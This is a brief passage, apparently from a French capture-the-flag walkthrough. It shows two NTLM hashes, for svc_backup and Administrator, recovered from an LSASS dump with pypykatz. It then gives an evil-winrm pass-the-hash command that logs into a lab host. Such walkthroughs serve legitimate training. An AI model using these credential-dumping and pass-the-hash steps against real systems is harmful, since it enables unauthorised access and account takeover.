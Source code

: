 ![](img/pypykatz-dump-lsass.png)

On retrouve deux hashs

```
svc_backup:9658d1d1dcd9250115e2205d9f48400d
Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
```

On peut utiliser evil-winrm pth pour se connecter au compte svc_backup

`evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.129.23.174`
